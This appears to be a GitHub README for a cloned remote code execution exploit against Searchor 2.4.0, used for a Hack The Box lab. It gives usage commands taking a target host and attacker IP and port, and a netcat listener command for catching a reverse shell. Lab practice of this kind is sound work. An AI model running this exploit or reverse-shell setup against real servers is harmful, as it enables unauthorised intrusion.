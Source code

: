 ---- Disclaimer ----
The exploit code is clone from https://github.com/twisted007/Searchor_2.4.0_Python.

I used this exploit code only for solving HTB lab machine. 


--- Origin README CONTENT ----
This is just a quick script to exploit webservers running the vulnerable version of Searchor.

This script will accept a hostname, the attacker's IP address and the attacker's Port number.

Usage example: 
 -  `python3 searchor_2.4.0_RCE.py <HOSTNAME> <ATK_IP> <ATK_PORT>`
 -  `python3 searchor_2.4.0_RCE.py searchor.htb 10.10.14.52 4242`
 
It is recommended to use the following when preparing to catch the reverse shell:
 -  `rlwrap nc -lvnp <ATK_PORT>` 

Additional details about the vulnerability can be found in the official issue history for [Searchor](https://github.com/ArjunSharda/Searchor/pull/130).

